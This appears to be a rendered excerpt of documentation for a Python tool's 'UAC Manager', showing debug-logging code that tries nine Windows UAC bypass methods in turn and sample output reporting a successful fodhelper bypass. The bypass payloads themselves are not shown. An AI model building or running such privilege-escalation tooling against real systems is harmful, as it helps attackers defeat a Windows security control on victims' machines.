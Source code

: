
### **6. UAC Manager Method Execution Debugging (Lines 1202-1242)**

**Enhanced try_all_methods():**
```python
def try_all_methods(self) -> bool:
    available_methods = self.get_available_methods()
    
    debug_print(f"[UAC MANAGER] Trying {len(available_methods)} UAC bypass methods...")
    
    for i, method_name in enumerate(available_methods, 1):
        debug_print("=" * 80)
        debug_print(f"[UAC MANAGER] Attempt {i}/{len(available_methods)}: {method_name}")
        debug_print("=" * 80)
        
        result = self.execute_method(method_name)
        
        if result:
            debug_print("=" * 80)
            debug_print(f"✅ [UAC MANAGER] SUCCESS! Method '{method_name}' worked!")
            debug_print("=" * 80)
            return True
        else:
            debug_print(f"❌ [UAC MANAGER] Method '{method_name}' FAILED")
    
    debug_print("=" * 80)
    debug_print("❌ [UAC MANAGER] ALL METHODS FAILED!")
    debug_print("=" * 80)
    return False
```

**Output:**
```
[DEBUG] [UAC MANAGER] Trying 9 UAC bypass methods...
[DEBUG] ================================================================================
[DEBUG] [UAC MANAGER] Attempt 1/9: fodhelper
[DEBUG] ================================================================================
[DEBUG]   [METHOD] Checking if Fodhelper Protocol is available...
[DEBUG]   ✅ [METHOD] Fodhelper Protocol is AVAILABLE
[DEBUG]   [METHOD] Executing Fodhelper Protocol (ID: 33)...
[DEBUG]   ✅✅✅ [METHOD] Fodhelper Protocol SUCCESS!
[DEBUG] ================================================================================
[DEBUG] ✅ [UAC MANAGER] SUCCESS! Method 'fodhelper' worked!
[DEBUG] ================================================================================
```

---

### **7. Individual Method Execution Debugging (Lines 1088-1117)**

**Enhanced UACBypassMethod.execute():**
```python
def execute(self) -> bool:
    debug_print(f"  [METHOD] Checking if {self.name} is available...")
    
    if not self.is_available():
        debug_print(f"  ❌ [METHOD] {self.name} NOT AVAILABLE on this system")
        raise UACBypassError(...)
    
    debug_print(f"  ✅ [METHOD] {self.name} is AVAILABLE")
    
    with self._lock:
        debug_print(f"  [METHOD] Executing {self.name} (ID: {self.method_id})...")
        result = self._execute_bypass()
```